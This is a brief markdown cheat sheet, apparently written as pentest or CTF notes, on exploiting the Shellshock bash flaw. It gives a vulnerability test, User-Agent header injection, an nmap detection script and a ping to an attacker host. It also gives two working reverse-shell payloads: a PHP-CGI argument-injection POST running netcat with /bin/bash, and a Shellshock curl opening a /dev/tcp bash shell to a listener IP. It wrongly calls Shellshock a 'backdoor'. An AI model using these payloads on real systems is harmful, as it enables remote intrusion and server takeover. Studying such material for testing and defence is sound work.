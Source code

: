 It is a backdoor that affected CGI programs on web servers, OpenSSH, DHCP Clients...

When executed on a system, the shell would echo `vuln` if it's vulnerable to shellsock:

```sh
env x=`() { :;}; echo vuln` bash -c "echo this is a test"
```


Attack vectors
Modification of `User-Agent` strings to include shellshock payloads inteded to run command on the remote server

```sh
curl -H "user-agent: () { :; }; <command>
```

## Exploitation
Locate CGI program on a potentiallt vulnerable systeme
The `phpinfo.php` page can give use some information about the cgi location the variables like

- `ORIG_SCRIPT_NAME`
- `_ENV["ORIG_SCRIPT_NAME"]`
- `_SERVER["ORIG_SCRIPT_NAME"]`

```sh
nmap --script http-shellshock --script-args uri=/cgi-bin/login.cgi <target> -p 80
```

```sh
curl -H "user-agent: () { :; }; ping -c 5 -p uniq_string attacker.machine
```

---
Reverse-shelll 

```sh
curl -i -s -k -X 'POST' --data-binary "<?php system('nc 192.168.45.128 4444 -e /bin/bash');die; ?>" "http://target.com/cgi-bin/php5?%2dd+allow_url_include%3don+%2dd+safe_mode%3doff+%2dd+suhosin%2esimulation%3don+%2dd+disable_functions%3d%22%22+%2dd+open_basedir%3dnone+%2dd+auto_prepend_file%3dphp%3a%2f%2finput+%2dd+cgi%2eforce_redirect%3d0+%2dd+cgi%2eredirect_status_env%3d0+%2dn"
```


```sh
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.2.113.150/9001 0>&1'" \
http://10.10.111.109/cgi-bin/test.cgi
```

